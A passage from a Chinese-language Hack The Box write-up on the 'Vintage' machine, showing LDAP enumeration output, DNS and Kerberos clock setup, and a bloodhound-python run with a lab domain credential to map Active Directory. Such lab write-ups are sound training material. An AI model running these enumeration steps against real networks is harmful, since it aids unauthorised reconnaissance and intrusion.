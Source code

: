 ```
ref: ldap://DomainDnsZones.vintage.htb/DC=DomainDnsZones,DC=vintage,DC=htb

# search reference
ref: ldap://vintage.htb/CN=Configuration,DC=vintage,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 21
# numEntries: 17
# numReferences: 3
```

其中存在的一个Computers，其域名为`FS01.vintage.htb`似乎就是这台机子

将其添加到/etc/hosts

```
# fs01, Computers, vintage.htb
dn: CN=fs01,CN=Computers,DC=vintage,DC=htb
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: FS01$
```

## Bloodhound

首先要在/etc/resove.conf中添加

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# cat /etc/resolv.conf

# Generated by NetworkManager
search localdomain
#nameserver 192.168.237.2    #根据需要注释掉这一行

nameserver 10.10.11.45  # Your IP
```

注释掉192.168.xxx.xxx，我并不知道这是否是必要的，但是我注释掉后能成功

然后注意同步时区，因为Kerberos的认证有时区的限制

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# ntpdate dc01.vintage.htb

2024-12-03 16:24:04.142934 (+0800) -833.126733 +/- 0.034009 dc01.vintage.htb 10.10.11.45 s1 no-leap
CLOCK: time stepped by -833.126733
```

然后进行内网信息收集，使用bloodhound

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb            
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
```